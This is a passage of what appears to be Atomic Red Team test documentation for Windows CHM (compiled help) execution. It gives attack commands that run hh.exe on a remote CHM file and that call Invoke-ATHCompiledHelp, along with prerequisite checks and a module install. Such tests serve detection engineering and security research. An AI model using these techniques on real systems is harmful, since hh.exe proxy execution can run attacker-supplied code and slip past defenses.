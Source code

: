 
#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{remote_chm_file}
```






<br/>
<br/>

## Atomic Test #3 - Invoke CHM with default Shortcut Command Execution
Executes a CHM file with the default Shortcut Command method.

**Supported Platforms:** Windows


**auto_generated_guid:** 29d6f0d7-be63-4482-8827-ea77126c1ef7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| chm_file_path | Default path of CHM | string | Test.chm|
| hh_file_path | path of modified HH.exe | path | $env:windir&#92;hh.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-ATHCompiledHelp -HHFilePath #{hh_file_path} -CHMFilePath #{chm_file_path}
```




#### Dependencies:  Run with `powershell`!
##### Description: The AtomicTestHarnesses module must be installed and Invoke-ATHCompiledHelp must be exported in the module.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name AtomicTestHarnesses -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Invoke-ATHCompiledHelp']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AtomicTestHarnesses -Scope CurrentUser -Force
```
